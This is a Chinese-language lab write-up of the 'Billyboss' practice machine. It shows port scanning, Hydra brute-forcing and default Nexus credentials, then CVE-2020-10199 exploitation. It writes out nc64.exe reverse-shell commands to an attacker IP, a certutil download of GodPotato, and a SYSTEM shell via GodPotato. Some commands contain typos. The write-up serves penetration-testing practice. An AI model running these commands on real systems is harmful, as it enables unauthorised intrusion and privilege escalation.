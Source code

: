 ```yaml
---
description: Windows / 中等难度 / Nexus Repository Manager OSS 3.21.0-05
---
```


# ✔️ Billyboss

## 建立立足点

### 信息枚举

* 使用Nmap针对目标系统的开放端口进行扫描：

```bash
nmap -sC -sV -p- -oA billyboss 192.168.250.61
```

<figure><img src="../.gitbook/assets/Snipaste_2024-06-22_14-02-58.png" alt=""><figcaption></figcaption></figure>

* 同时也可直接尝试看看目标系统是否有web页面，本例的80端口正运行着一个叫BaGet的应用程序，可做一些常规的信息收集：

<figure><img src="../.gitbook/assets/Snipaste_2024-06-22_14-01-00.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/Snipaste_2024-06-22_14-01-28.png" alt=""><figcaption></figcaption></figure>

* 通过Nmap的扫描结果，发现目标还有一个8081的开放端口，也正在运行着HTTP服务，依次查看相关网页内容，确定当前正运行的是Nexus Repository Manager OSS 3.21.0-05的应用程序：

<figure><img src="../.gitbook/assets/4 (4).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/5 (4).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/6 (4).png" alt=""><figcaption></figcaption></figure>

* 使用dirsearch扫描一下该端口上还有没有其他的隐藏目录/文件：

<figure><img src="../.gitbook/assets/7 (5).png" alt=""><figcaption></figcaption></figure>

* 发现一个/swagger-ui，看它大小不抱什么希望，果然没什么东西：

<figure><img src="../.gitbook/assets/8 (5).png" alt=""><figcaption></figcaption></figure>

### 漏洞查阅

* 因为此时已经获得了应用程序的版本号，查阅公开漏洞库发现了可能可以利用的漏洞脚本：

<figure><img src="../.gitbook/assets/10 (1) (1).png" alt=""><figcaption></figcaption></figure>

* 阅读该脚本后，发现几个需要修改的地方：

<figure><img src="../.gitbook/assets/11 (1) (1).png" alt=""><figcaption></figcaption></figure>

* 但是在之前的信息枚举的过程中完全没有发现任何可利用用户凭证信息，所以决定使用Hydra进行爆破：

1. 先用BurpSuite拦截一下POST表单查看路径和用户名、密码处的格式：

<figure><img src="../.gitbook/assets/12 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

2. 用户名密码处用Base64编码了，在构造hydra命令时应注意用:username=<mark style="color:red;">**^USER64^**</mark>spassw0rd=<mark style="color:red;">**^PASS64^**</mark>：

```bash
# 使用Hydra的爆破时间实在是太长，需要准备一些更好的username和password字典文件
hydra -L /usr/share/secLists/Usernames/Names/names.txt -P /usr/share/SecLists/Passwords/common-credentials/10k-most-common.txt
192.168.250.61 -s 8081 http-post-form '/service/rapture/session:username=^USER64^spassw0rd=^PASS64^:Forbidden‘
```

* 因考虑到Hydra爆破耗时漫长，所以与此同时决定猜测弱口令，简单猜测几次后发现了有效凭证_<mark style="color:red;">**nexus:nexus  😄**</mark>_

<figure><img src="../.gitbook/assets/13 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 漏洞利用

* 此时已具备了可以修改漏洞脚本的基本项，但是还需要上传一个nc.exe程序，用于后续执行一个反弹shell回来：

<figure><img src="../.gitbook/assets/15 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 在Kali机器的对应目录下，存放一个nc64.exe脚本并开启一个简单的服务器：

<figure><img src="../.gitbook/assets/16 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* nc64.exe程序上传成功：

<figure><img src="../.gitbook/assets/17 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/18 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### GET SHELL

* 此时，可再次修改脚本内容，用于执行反弹shell回连到Kali机器上：

<figure><img src="../.gitbook/assets/19 (1) (1).png" alt=""><figcaption></figcaption></figure>

* 但是返回后的信息显示了一个错误信息，我设置的命令被嵌套在好几个函数中：

<figure><img src="../.gitbook/assets/20 (1).png" alt=""><figcaption></figcaption></figure>

* 使用反斜杠逃逸：

```bash
.\\\\nc64.exe 192.168.45.158 4444 -e cmd.exe
```

<figure><img src="../.gitbook/assets/21 (1).png" alt=""><figcaption></figcaption></figure>

* 监听端口接收到了回连的shell，此时getshell并获得了flag：

<figure><img src="../.gitbook/assets/22 (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/23 (1).png" alt=""><figcaption></figcaption></figure>

## 权限提升

### 本机信息枚举

* 先手工进行简单的信息收集：

<figure><img src="../.gitbook/assets/24 (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/25 (1).png" alt=""><figcaption></figcaption></figure>

### 漏洞利用

* 本例中决定使用提权工具GodPotato，但是得先确定目标系统的.NET框架的版本号，得知为4.0版本：

```powershell
reg query "HKEY_L0CAL_MACHINE\S0FTWARE\Microsoft\NET Framework Setup\NDP"
```

<figure><img src="../.gitbook/assets/26 (1).png" alt=""><figcaption></figcaption></figure>

* 下载GodPotato-NET4.exe，然后将工具传到目标系统中：

<figure><img src="../.gitbook/assets/27 (1).png" alt=""><figcaption></figcaption></figure>

```powershell
certutil -split -f -urlcache http://192.168.45.158/GodPotato-NET4.exe
```

<figure><img src="../.gitbook/assets/28 (1).png" alt=""><figcaption></figcaption></figure>

* 上传成功后，执行一下GodPotato-NET4.exe程序，看看是否可以成功执行：

<figure><img src="../.gitbook/assets/29 (1).png" alt=""><figcaption></figcaption></figure>

### ROOT

* 此时，将GodPotato-NET4.exe程序的\`-cmd\`参数的值修改为调用刚才上传的nc64.exe程序以执行一个反弹shell回连至Kali本机中：

```powershell
.\GodPotato-NEr4.exe -cmd "C:\Users\nathan\Nexus\nexus-3.21.0-05\nc64.exe 192.168.45.158 8888 -e cmd.exe"
```

<figure><img src="../.gitbook/assets/30 (1).png" alt=""><figcaption></figcaption></figure>

* 获得ROOT flag：

<figure><img src="../.gitbook/assets/31 (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
本例算中等偏难的机器，锁定可利用的漏洞和提权时都不难，但是其实现过程中需要根据实际情况进行修改和变通。

CVE-2020-10199
{% endhint %}
